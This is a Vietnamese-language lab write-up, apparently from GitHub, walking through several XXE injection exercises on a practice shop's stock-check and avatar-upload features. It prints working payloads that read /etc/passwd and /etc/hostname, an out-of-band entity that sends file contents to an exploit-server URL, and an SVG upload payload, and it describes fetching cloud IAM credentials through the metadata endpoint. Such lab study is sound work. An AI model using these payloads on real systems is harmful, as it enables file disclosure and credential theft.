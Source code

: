 ![image](https://github.com/user-attachments/assets/bd775a09-6e97-4334-aeba-81c501483e52)![image](https://github.com/user-attachments/assets/fec71b7a-2c45-415e-bc58-6dcd860f9253)

Trong web có cái check stock dùng xml:

![image](https://github.com/user-attachments/assets/5d8bf9eb-857a-497a-8764-918e770534d9)

![image](https://github.com/user-attachments/assets/4befdeb1-bce8-42c9-9264-2c95f21b5e93)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lmao [ <!ENTITY lmao1 SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&lmao1;
</productId><storeId>2</storeId></stockCheck>
```

Tạo 1 cái ENTITY mở file /etc/passwd

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/3d647ea7-d282-493b-adf2-35668ea33d5c)

![image](https://github.com/user-attachments/assets/c865df3e-c259-4da1-9b57-01d8b7942010)

Lần này làm giống bài cũ nhưng không có được

![image](https://github.com/user-attachments/assets/eea7330a-df34-40ad-83f6-c94ce3f10446)

Tôi tra mạng thì ra được cái này [Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html):

![image](https://github.com/user-attachments/assets/50eb2ec6-2623-483c-ae7f-d10fb2c9a0bd)

Và tôi thêm cái latest/meta-data/iam/security-credentials/admin vào sau, nó ra:

![image](https://github.com/user-attachments/assets/7b1516ac-44b1-4709-b5a8-0f014b380a74)

Xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/754be58c-4156-43b5-9d8c-4e6c26ebeb6f)

Đây là req check stock:

![image](https://github.com/user-attachments/assets/27831c9a-8d98-4212-b0b0-ce016e6e3502)

Tôi thử cái payload cũ thì không có được:

![image](https://github.com/user-attachments/assets/763c56ac-10ff-4a1d-b06b-bbff6673efec)

Tôi thử thay bằng cái link burp collaborator vào:

![image](https://github.com/user-attachments/assets/7d700cd7-60c0-4126-a3bd-68c69c17cc46)

![image](https://github.com/user-attachments/assets/04319aa1-4a6b-4fde-b37d-92d3d547b3ee)

Và nó có gửi req tới, xong

![image](https://github.com/user-attachments/assets/538c6c88-7493-4097-9389-4af04c03d7f5)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/369a2da2-7c6c-4b0c-87d6-fba9b3b676cd)

Lần này thì bài không cho tôi dùng cái payload cũ nữa:

![image](https://github.com/user-attachments/assets/29a4a0b4-de77-41f1-a90d-64e8a47adb16)

Có cái này không cần phải gọi hẳn ra trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection):

![image](https://github.com/user-attachments/assets/4d71462f-9c22-462d-98e4-0d5269a441f4)

![image](https://github.com/user-attachments/assets/49e81264-d9cf-4dcc-9302-1e478b4e3ed9)

Mặc dù nó nhìn ra lỗi nhưng bên collaborator vẫn có req được gửi tới:

![image](https://github.com/user-attachments/assets/1b1454bd-61fa-4015-8bbd-9ca672a93bbe)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/e4528b8e-ab5f-42bd-b40d-8917ba9ee1e0)

Vẫn là cái req đấy:

![image](https://github.com/user-attachments/assets/7abfc6fd-4193-48b7-bee4-7793b9ea7ad4)

Vẫn là payload cũ và nó vẫn được:

![image](https://github.com/user-attachments/assets/3cabee7b-743e-4618-aece-2a78da12c9b6)

![image](https://github.com/user-attachments/assets/98f51724-33db-4bbe-ba5d-ff321fae1999)

Ở đây tôi tạo 1 thực thể trỏ đến link của server exploit và chạy cái này:

![image](https://github.com/user-attachments/assets/cd1899b1-00a4-424e-8e73-481be6147024)

```
<!ENTITY % hostnamefile SYSTEM "file:///etc/hostname">
<!ENTITY % lmao1 "<!ENTITY &#x25; lmao2 SYSTEM 'https://exploit-0aec009d04696226814e60da01de004c.exploit-server.net/exploit/?x=%hostnamefile;'>">
%lmao1;
%lmao2;
```
Thì cái này sẽ mở file /etc/hostname và gán vào param exploit của link server exploit, giờ thì vào access log là có nội dung của file đấy:

![image](https://github.com/user-attachments/assets/d8580921-f74a-4a2e-b01d-1b6dab2b7525)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/9da47469-ce51-4e82-9bdb-0cac0459a7de)

Vẫn như bài lab cũ, vẫn là check stock:

![image](https://github.com/user-attachments/assets/4f343042-1aa6-45f2-98c6-f565f386f6a0)

Lần này thì nhìn có dài dài hơn nhưng vẫn gửi được req đến burp collaborator:

![image](https://github.com/user-attachments/assets/88f6f8e9-94a7-4716-b8c3-2b003dc7c6a0)

![image](https://github.com/user-attachments/assets/e3c30854-2325-4132-a498-ac5cd082eafa)

Đổi từ burp collaborator sang link của server exploit và trong server exploit thì để body là cái này:

![image](https://github.com/user-attachments/assets/c84e4d56-928c-4eac-999f-bb2dbdd8b5e6)

Và cuối cùng gửi req là xong:

![image](https://github.com/user-attachments/assets/471678c0-1cd7-446f-ae0c-84492506231d)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/8208ead7-fa4c-494a-a0e7-21c34d149257)

Lần này thì cái check stock không có ở dạng xml

![image](https://github.com/user-attachments/assets/b829cf30-e952-4879-aca6-ffdb0c8d7190)

Thử sửa sang xml mà vẫn không thấy được:

![image](https://github.com/user-attachments/assets/e8220178-44bb-4d32-8811-281aaea9fed2)

Nhưng khi tôi chèn 1 cái entity vào thì nó hiện ra "Entities are not allowed for security reasons", điều này có nghĩa là nó có xml ở cái param đó:

![image](https://github.com/user-attachments/assets/1dda301b-995b-4c35-ad96-14356b409a5d)

Đề có nhắc tới cái XInclude thì XInclude (XML Inclusions) là một cơ chế cho phép nhúng hoặc hợp nhất nội dung từ tài liệu bên ngoài vào trong một tài liệu XML. Nó được định nghĩa bởi W3C và sử dụng namespace, tôi lấy cái payload ở trên [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection):

![image](https://github.com/user-attachments/assets/8960ae73-90e4-408d-8b47-d5d3bcfc84f2)

![image](https://github.com/user-attachments/assets/9d361032-8287-43fd-b0c7-bb1cac32a27e)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/76f77e4c-6d60-466d-8e69-1915d07b4dd9)

Lần này thì lỗi nằm ở upload avatar:

![image](https://github.com/user-attachments/assets/31f65523-ad3c-4bc1-8718-9f1431197780)

Tôi thử upload svg lên vì nó ở dạng xml:

![image](https://github.com/user-attachments/assets/095d1281-33c6-48d0-9ac3-27f6386d2a1d)

Do svg ở dạng xml nên tôi có tham khảo qua payload ở [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) và tìm được cái này:

![image](https://github.com/user-attachments/assets/5f90535d-d784-4123-9997-d105924b7749)

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

![image](https://github.com/user-attachments/assets/422a7ee4-56ab-475b-aff2-6d0c46b39efb)

Tải lại trang và vào thì có cái nội dung của /etc/hostname:

![image](https://github.com/user-attachments/assets/b2dbdde6-5198-4413-9b57-cb16a0e216dd)

<h1>---------------------------------------------------------</h1>
<br>



























































